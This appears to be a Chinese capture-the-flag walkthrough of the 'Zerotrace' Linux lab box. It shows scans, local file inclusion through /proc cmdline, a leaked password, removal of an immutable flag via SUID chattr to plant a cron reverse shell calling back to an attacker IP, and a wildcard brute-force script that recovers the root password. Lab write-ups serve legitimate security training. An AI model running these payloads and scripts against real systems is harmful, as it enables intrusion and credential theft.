

## Box Info

| OS | Linux |
| --- | --- |
| Difficulty | Medium |

## Nmap

```
[root@kali] /home/kali  
❯ nmap 192.168.56.119 -sV -A              

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 9.2p1 Debian 2+deb12u5 (protocol 2.0)
| ssh-hostkey: 
|   256 a9:a8:52:f3:cd:ec:0d:5b:5f:f3:af:5b:3c:db:76:b6 (ECDSA)
|_  256 73:f5:8e:44:0c:b9:0a:e0:e7:31:0c:04:ac:7e:ff:fd (ED25519)
80/tcp   open  http    nginx 1.22.1
|_http-server-header: nginx/1.22.1
|_http-title: Massively by HTML5 UP
8000/tcp open  ftp     pyftpdlib 1.5.7
| ftp-syst: 
|   STAT: 
| FTP server status:
|  Connected to: 192.168.56.119:8000
|  Waiting for username.
|  TYPE: ASCII; STRUcture: File; MODE: Stream
|  Data connection closed.
|_End of status.
```

## Dirsearch

```
[root@kali] /home/kali/Zerotrace  
❯ dirsearch -u http://192.168.56.119 -t 50    
/usr/lib/python3/dist-packages/dirsearch/dirsearch.py:23: DeprecationWarning: pkg_resources is deprecated as an API. See https://setuptools.pypa.io/en/latest/pkg_resources.html
  from pkg_resources import DistributionNotFound, VersionConflict

  _|. _ _  _  _  _ _|_    v0.4.3                                                                                                                                                                                
 (_||| _) (/_(_|| (_| )                                                                                                                                                                                         
                                                                                                                                                                                                                
Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 50 | Wordlist size: 11460

Output File: /home/kali/Zerotrace/reports/http_192.168.56.119/_25-03-15_19-12-30.txt

Target: http://192.168.56.119/

[19:12:30] Starting:                                                                                                                                                                                            
[19:12:30] 301 - 169B  - /.admin  ->  http://192.168.56.119/.admin/        
[19:12:30] 403 - 555B  - /.admin/
[19:12:31] 403 - 555B  - /.ht_wsr.txt                                      
[19:12:31] 403 - 555B  - /.htaccess.bak1                                   
[19:12:31] 403 - 555B  - /.htaccess.orig                                   
[19:12:31] 403 - 555B  - /.htaccess.sample
[19:12:31] 403 - 555B  - /.htaccess.save
[19:12:31] 403 - 555B  - /.htaccess_extra                                  
[19:12:31] 403 - 555B  - /.htaccess_orig
[19:12:31] 403 - 555B  - /.htaccess_sc
[19:12:31] 403 - 555B  - /.htaccessOLD
[19:12:31] 403 - 555B  - /.htaccessBAK
[19:12:31] 403 - 555B  - /.htaccessOLD2                                    
[19:12:31] 403 - 555B  - /.htm
[19:12:31] 403 - 555B  - /.html                                            
[19:12:31] 403 - 555B  - /.httr-oauth                                      
[19:12:31] 403 - 555B  - /.htpasswds                                       
[19:12:31] 403 - 555B  - /.htpasswd_test                                   
[19:12:37] 301 - 169B  - /assets  ->  http://192.168.56.119/assets/        
[19:12:37] 403 - 555B  - /assets/                                          
[19:12:43] 403 - 555B  - /images/                                          
[19:12:43] 301 - 169B  - /images  ->  http://192.168.56.119/images/
[19:12:44] 200 - 17KB - /LICENSE.txt                                      
[19:12:50] 200 - 930B  - /README.txt                                       
[19:12:54] 403 - 555B  - /uploads/                                         
[19:12:54] 403 - 555B  - /uploads/affwp-debug.log                          
[19:12:54] 403 - 555B  - /uploads/dump.sql                                 
                                                                             
Task Completed                                                                                                                                                                                                  
```

发现存在一个**/.admin**目录

## Gobuster

```
[root@kali] /home/kali/Zerotrace  
❯ gobuster dir -u http://192.168.56.119/.admin -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,html,txt
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.56.119/.admin
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              php,html,txt
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.html                (Status: 403) [Size: 153]
/tool.php             (Status: 200) [Size: 0]
/.html                (Status: 403) [Size: 153]
Progress: 882240 / 882244 (100.00%)
===============================================================
Finished
===============================================================
```

发现一个**tool.php**

## FFUF

直接访问没有回显，尝试对参数进行爆破

```
[root@kali] /home/kali/Zerotrace  
❯ ffuf -u "http://192.168.56.119/.admin/tool.php?FUZZ=/etc/passwd"  -w ../Desktop/fuzzDicts/paramDict/AllParam.txt -fs 0

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://192.168.56.119/.admin/tool.php?FUZZ=/etc/passwd
 :: Wordlist         : FUZZ: /home/kali/Desktop/fuzzDicts/paramDict/AllParam.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response size: 0
________________________________________________

file                    [Status: 200, Size: 1163, Words: 5, Lines: 25, Duration: 8ms]
:: Progress: [74332/74332] :: Job [1/1] :: 5263 req/sec :: Duration: [0:00:15] :: Errors: 0 ::
```

当参数是**file**时有回显，查看内容

```
[root@kali] /home/kali/Zerotrace  
❯ curl "http://192.168.56.119/.admin/tool.php?file=/etc/passwd"                                                                                                                                               ⏎
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
_apt:x:42:65534::/nonexistent:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:998:998:systemd Network Management:/:/usr/sbin/nologin
messagebus:x:100:107::/nonexistent:/usr/sbin/nologin
sshd:x:101:65534::/run/sshd:/usr/sbin/nologin
ll104567:x:1000:1000::/home/ll104567:/bin/bash
J4ckie0x17:x:1002:1002:,,,:/home/J4ckie0x17:/bin/bash
shelldredd:x:1003:1003::/home/shelldredd:/bin/bash
```

查看到存在三个用户：**ll104567**、**J4ckie0x17**、**shelldredd**

## Own J4ckie0x17

尝试使用**LFI**的字典进行扫描

```
[root@kali] /home/kali/Zerotrace  
❯ ffuf -u "http://192.168.56.119/.admin/tool.php?file=FUZZ"  -w /usr/share/SecLists/Fuzzing/LFI/LFI-LFISuite-pathtotest-huge.txt -fs 0

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://192.168.56.119/.admin/tool.php?file=FUZZ
 :: Wordlist         : FUZZ: /usr/share/SecLists/Fuzzing/LFI/LFI-LFISuite-pathtotest-huge.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response size: 0
________________________________________________

/etc/passwd             [Status: 200, Size: 1163, Words: 5, Lines: 25, Duration: 4ms]
:: Progress: [9513/9513] :: Job [1/1] :: 5128 req/sec :: Duration: [0:00:02] :: Errors: 0 ::
```

没有任何东西，去看了一下**writeup**，发现原来是**/proc/{id}/cmdline**

**cmdline** 文件存储着启动当前进程的完整命令，但僵尸进程目录中的此文件不包含任何信息。可以通过查看**cmdline**目录获取启动指定进程的完整命令

可以看到**/proc/1/cmdline**是有回显的。


因此可以遍历一下其他的**PID**

```
[root@kali] /home/kali/Zerotrace  
❯ seq 1 10000 > numbers.txt                                                                                                                                                              ⏎

[root@kali] /home/kali/Zerotrace  
❯ ffuf -u "http://192.168.56.119/.admin/tool.php?file=/proc/FUZZ/cmdline" -w ./numbers.txt -fs 0                                      

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://192.168.56.119/.admin/tool.php?file=/proc/FUZZ/cmdline
 :: Wordlist         : FUZZ: /home/kali/Zerotrace/numbers.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response size: 0
________________________________________________

1                       [Status: 200, Size: 11, Words: 1, Lines: 1, Duration: 2ms]
208                     [Status: 200, Size: 30, Words: 1, Lines: 1, Duration: 9ms]
231                     [Status: 200, Size: 27, Words: 1, Lines: 1, Duration: 9ms]
375                     [Status: 200, Size: 140, Words: 1, Lines: 1, Duration: 8ms]
457                     [Status: 200, Size: 18, Words: 1, Lines: 1, Duration: 9ms]
458                     [Status: 200, Size: 105, Words: 1, Lines: 1, Duration: 9ms]
461                     [Status: 200, Size: 78, Words: 4, Lines: 1, Duration: 9ms]
463                     [Status: 200, Size: 18, Words: 1, Lines: 1, Duration: 9ms]
465                     [Status: 200, Size: 28, Words: 1, Lines: 1, Duration: 9ms]
469                     [Status: 200, Size: 120, Words: 12, Lines: 1, Duration: 9ms]
472                     [Status: 200, Size: 109, Words: 1, Lines: 1, Duration: 9ms]
474                     [Status: 200, Size: 71, Words: 9, Lines: 1, Duration: 9ms]
475                     [Status: 200, Size: 43, Words: 3, Lines: 1, Duration: 9ms]
480                     [Status: 200, Size: 56, Words: 8, Lines: 1, Duration: 9ms]
482                     [Status: 200, Size: 49, Words: 3, Lines: 1, Duration: 9ms]
1504                    [Status: 200, Size: 78, Words: 3, Lines: 1, Duration: 8ms]
1505                    [Status: 200, Size: 78, Words: 3, Lines: 1, Duration: 8ms]
1506                    [Status: 200, Size: 78, Words: 3, Lines: 1, Duration: 8ms]
1602                    [Status: 200, Size: 78, Words: 3, Lines: 1, Duration: 9ms]
:: Progress: [10000/10000] :: Job [1/1] :: 5000 req/sec :: Duration: [0:00:02] :: Errors: 0 ::
```

可以看到**PID**为**469**的时候响应体最大，查看一下


得到用户的密码

```
J4ckie0x17:uhIpiRnUBwAHaG.EkeN-oKUfozESUnx3zCIxpuhAd
```

## Own shelldredd

登录后查看定时任务


这个文件的所有者是**shelldredd**，但是尽管有**w可写**权限，但是被**chattar+i**设置了不可修改


查找一下**SUID**文件，刚好存在**chattar**

```
find / -user root -perm -4000 -print 2>/dev/null
```



只需要去掉不可修改的修饰符就行了

```
J4ckie0x17@zerotrace:/opt/.nobodyshouldreadthis$ /usr/bin/chattr -i destiny 
J4ckie0x17@zerotrace:/opt/.nobodyshouldreadthis$ rm destiny 
J4ckie0x17@zerotrace:/opt/.nobodyshouldreadthis$ echo "bash -i >& /dev/tcp/192.168.56.118/6666 0>&1" >> destiny
```


写入公钥后**ssh**连接


## Own ll104567


查看**/opt/cryptovault/ll104567**目录下的内容

```
shelldredd@zerotrace:/opt/cryptovault/ll104567$ cat notes.txt 
我要在这里写下我的愿望：

在10秒内完成魔方

让The Flash（闪电侠）跑得更慢

在哔哩哔哩上达到1000个视频

shelldredd@zerotrace:/opt/cryptovault/ll104567$ cat secret 
{"address":"2891efcaa457d4d44dc724c4fa015fe8be4e279e","crypto":{"cipher":"aes-128-ctr","ciphertext":"fee023fd8fcd5b242b0ad4900de2d4614fa4be48887efbd6208a9beb65923df7","cipherparams":{"iv":"7183f2eea51e68d818fe976daf18327d"},"kdf":"scrypt","kdfparams":{"dklen":32,"n":262144,"p":1,"r":8,"salt":"abb71ccb91d0ec97831d49694bd80ce925c0204772fa6268ace1f73df97e3d71"},"mac":"4ed5177b17ad85eafafd3dedc40a3c85914d18611c2cca079871a28487055892"},"id":"0c431e07-6087-4368-a973-ed3fb4ec5045","version":3}

shelldredd@zerotrace:/home/ll104567$ cat one 
Why don't we join two universes and see who's the strongest?

saitama
genos
mumen
speed-o
fubuki
bang
tatsumaki
boros
drkuseno
onepunchman
karin
zombieman
childemperor
stinger
```

经过搜索**secret**是一个 **Ethereum** 钱包文件，这个文件通常用于保存加密的私钥，只有通过正确的密码才能解密并获取私钥。**但是这里不是这个考点。**

注意！！！！！

这里有个隐藏的东西，就是**one**里面的内容是一拳超人的角色名，提到的两个宇宙中的另一个宇宙就是龙珠（**dragonballz**），因此需要将在前面统一加上**dragonballz**的前缀。


## Root

查看**guessme**的内容

```
ll104567@zerotrace:~$ cat guessme 
#!/bin/bash
FTP_USER="admin"
FTP_PASS=$(cat /root/.creds)

echo -n "Please provide the password for $FTP_USER: "
read -s INPUT_PASS
echo

CLEAN_PASS=$(echo "$INPUT_PASS" | sed 's/[[:space:]]//g')

if [[ $FTP_PASS == $CLEAN_PASS ]]; then
    echo "Password matches!"
    exit 0
else
    echo "Access denied!"
    exit 1
fi
```

输入那里，有一个**sed**去掉空白字符。

这里主要考察的是**Linux**里的**通配符(?)**匹配

先写个脚本来检测有多少位

```
for i in {1..100}; do 
    # 创建一个由 i 个 ? 组成的字符串
    pattern=$(printf "?%.0s" $(seq 1 $i))
    
    # 显示当前正在尝试的长度
    echo "Trying password with length $i: $pattern"

    # 使用通配符展开，尝试当前长度的密码
    echo $pattern | sudo /bin/bash /home/ll104567/guessme 

    # 如果密码匹配，退出循环
    if [ $? -eq 0 ]; then
        echo "Password with length $i is correct!"
        break
    fi
done
```


发现密码一共有**49**位。类似于**SQL**注入的方式，先用**49**个通配符，然后逐一测试。

```
#!/bin/bash

charset="abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789"

# 密码长度
password_length=49

# 初始化密码为49个问号
current_password=$(printf "%-${password_length}s" "?" | tr ' ' '?')

# 暴力破解每个字符
for i in $(seq 1 $password_length); do
    # 遍历字符集，暴力破解当前字符位置
    for char in $(echo $charset | sed 's/./& /g'); do
        # 替换密码中当前位置的字符
        current_password="${current_password:0:$i-1}$char${current_password:$i}"

        # 使用 guessme 脚本测试当前密码
        result=$(echo $current_password | sudo /bin/bash /home/ll104567/guessme)

        # 如果密码匹配，输出结果并继续到下一个字符
        if [[ $result == *"Password matches!"* ]]; then
            echo "Current correct password: $current_password"
            break
        fi
    done
done

echo "Password is correct: $current_password"
```


然后拿到**root**


## Summary

`User`：目录扫描，参数爆破，读取到**/proc/pid/cmdline**进程参数文件，得到**J4ckie0x17**权限。通过**chattr**取消掉不可修改的文件，写入反弹**shell**，得到**shelldredd**的权限。最后通过留言，进行猜测拼接，进行**ssh**爆破登录，拿到**ll104567**。

`Root`：在**Linux**系统中，**( ? )**问号是一个通配符，用于匹配单个字符。这里通过对每一位进行尝试爆破，最终得到**root**的密码。
